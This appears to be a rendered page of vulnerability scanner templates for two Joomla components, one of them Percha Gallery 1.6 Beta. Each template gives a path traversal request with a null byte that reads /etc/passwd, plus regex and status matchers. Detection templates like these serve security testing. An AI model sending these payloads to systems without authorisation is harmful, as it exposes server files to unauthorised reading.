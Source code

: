 ## Requests

- Method - GET

### URL

- {{BaseURL}}/component/music/album.html?cid=../../../../../../../../../../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Joomla! Component Percha Gallery 1.6 Beta - Directory Traversal

## Description

- A directory traversal vulnerability in the Percha Gallery (com_perchagallery) component 1.6 Beta for Joomla! allows remote attackers to read arbitrary files and possibly have unspecified other impacts via a .. (dot dot) in the controller parameter to index.php.
- severity - high
- tags - packetstorm,cve,cve2010,joomla,lfi,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?option=com_perchagallery&controller=../../../../../../../../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---